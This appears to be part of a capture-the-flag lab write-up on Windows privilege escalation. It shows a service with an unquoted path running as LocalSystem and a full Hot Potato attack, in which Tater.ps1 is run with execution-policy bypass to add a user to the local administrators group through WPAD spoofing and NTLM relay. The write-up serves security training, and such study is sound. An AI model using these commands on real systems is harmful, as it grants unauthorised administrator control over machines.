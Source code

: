## Task 10 Service Escalation - Unquoted Service Paths

```
C:\Users\user>sc qc unquotedsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: unquotedsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files
\unquotedpathservice.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Unquoted Path Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

{% hint style="success" %}
No answer needed
{% endhint %}

## Task 11 Potato Escalation - Hot Potato

```
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\Users\user> powershell.exe -nop -ep bypass
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\Users\user> Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
PS C:\Users\user> Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
2022-06-26T13:24:46 - Tater (Hot Potato Privilege Escalation) started
Local IP Address = 10.10.99.186
Spoofing Hostname = WPAD
Windows Defender Trigger Enabled
Real Time Console Output Enabled
Run Stop-Tater to stop Tater early
Use Get-Command -Noun Tater* to show available functions
Press any key to stop real time console output

2022-06-26T13:24:46 - Flushing DNS resolver cache
2022-06-26T13:24:46 - Waiting for incoming HTTP connection
2022-06-26T13:24:48 - Starting NBNS spoofer to resolve WPAD to 127.0.0.1
2022-06-26T13:24:50 - WPAD has been spoofed to 127.0.0.1
2022-06-26T13:24:50 - Running Windows Defender signature update
2022-06-26T13:24:51 - HTTP request for /wpad.dat received from 127.0.0.1
2022-06-26T13:24:55 - Attempting to redirect to http://localhost:80/gethashes and trigger relay
2022-06-26T13:24:55 - HTTP request for http://download.windowsupdate.com/v9/windowsupdate/redir/muv4wuredir.cab?2206261
724 received from 127.0.0.1
2022-06-26T13:24:59 - HTTP request for /GETHASHES received from 127.0.0.1
2022-06-26T13:25:00 - HTTP to SMB relay triggered by 127.0.0.1
2022-06-26T13:25:00 - Grabbing challenge for relay from 127.0.0.1
2022-06-26T13:25:00 - Received challenge DA38D881138086D0 for relay from 127.0.0.1
2022-06-26T13:25:00 - Providing challenge DA38D881138086D0 for relay to 127.0.0.1
2022-06-26T13:25:01 - Sending response for \ for relay to 127.0.0.1
2022-06-26T13:25:01 - HTTP to SMB relay authentication successful for \ on 127.0.0.1
2022-06-26T13:25:01 - SMB relay service TGPVBCIOUBVVLFQRJQFL created on 127.0.0.1
2022-06-26T13:25:01 - Command likely executed on 127.0.0.1
2022-06-26T13:25:01 - SMB relay service TGPVBCIOUBVVLFQRJQFL deleted on 127.0.0.1
```